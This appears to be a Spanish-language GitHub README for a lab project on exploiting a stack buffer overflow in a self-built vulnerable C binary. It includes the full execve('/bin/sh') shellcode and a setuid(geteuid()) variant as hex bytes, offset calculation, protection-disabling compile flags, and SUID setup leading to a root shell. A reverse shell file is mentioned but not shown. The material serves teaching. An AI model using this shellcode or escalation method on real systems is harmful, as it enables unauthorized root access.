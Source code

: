 # Buffer Overflow Exploitation

Este proyecto muestra cómo explotar una vulnerabilidad de tipo **stack buffer overflow** para ejecutar código arbitrario, obteniendo una shell local y escalando privilegios con el bit **SUID** activado.

---

## Contenido del proyecto

- `vulnerable.c`: binario vulnerable que copia la entrada del usuario a un buffer sin control de límites.
- `exploit.c`: código que construye un payload para ejecutar una shell local (`/bin/sh`).
- `exploit_suid.c`: versión del exploit adaptada para binarios con el bit SUID activado.
- `exploit.asm`: solo el shellcode necesario para lanzar `/bin/sh` sin escalada de privilegios.
- `exploit_suid.asm`: shellcode que primero ejecuta `setuid(geteuid())` y luego lanza la shell.
- `reverse_shell.c`: reverse shell con almacenamiento de IP persistente.

---

## Parte 1: Ejecución de shell local

### Análisis del binario

El binario vulnerable contiene el siguiente código:

```c
void function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // ¡Sin comprobación de límites!
}

Este código permite que un atacante sobrescriba la dirección de retorno (RIP) en la pila al introducir más de 64 bytes, redirigiendo el flujo de ejecución a una shellcode personalizada.

### Cálculo del offset

Usando GDB:

```bash
(gdb) run $(python3 -c 'print("A"*80)')

El valor de `rip` resulta ser `0x4141414141414141`, lo que confirma que el offset hasta la dirección de retorno es de 72 bytes.

### Shellcode utilizada

La shellcode realiza una llamada directa a `execve("/bin/sh", NULL, NULL)`:

```asm
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall

### Construcción del payload

- NOP sled: relleno con `0x90` (instrucción NOP) hasta alcanzar el offset.
- Shellcode: se coloca al inicio del buffer.
- Dirección de retorno: apunta al NOP sled o directamente al shellcode.

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c

---

## Parte 2: Explotación de binario con bit SUID

En esta fase se explota un binario con el bit SUID activado (propiedad de root), lo que permite heredar sus privilegios al ejecutar la shellcode.

### Preparación del binario

```bash
sudo chown root:root vulnerable
sudo chmod u+s vulnerable

### Shellcode extendido

La shellcode utilizada añade una llamada a `setuid(geteuid())` justo antes de ejecutar `/bin/sh`. Esto garantiza que la shell heredada mantenga los privilegios elevados otorgados por el bit SUID.

```asm
// -- setuid(geteuid()) --
"\x48\x31\xff"                              // xor    rdi, rdi
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x69"                                  // mov    al, 0x69 (setuid)
"\x0f\x05"                                  // syscall
// -- execve("/bin/sh", NULL, NULL) --
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall

### Validación

Al ejecutar el exploit:

```bash
./exploit_suid
$ id
uid=0(root) gid=0(root) groups=0(root)

---

## Archivos adicionales

- **`exploit.asm`**: contiene exclusivamente el shellcode de ejecución de `/bin/sh` mediante `execve`, sin escalada de privilegios.
- **`exploit_suid.asm`**: contiene la variante del shellcode que incluye la syscall `setuid(geteuid())` seguida de `execve("/bin/sh", NULL, NULL)` para asegurar la herencia de privilegios cuando el binario explotado tiene el bit SUID activado.
- **`reverse_shell.c`**: reverse shell configurable que permite introducir la IP objetivo por teclado, y guarda la última IP usada en `/tmp/last_ip.txt`.

---

## Autor

**Julen Casajús**  
[GitHub Profile](https://github.com/JulenCasajus)

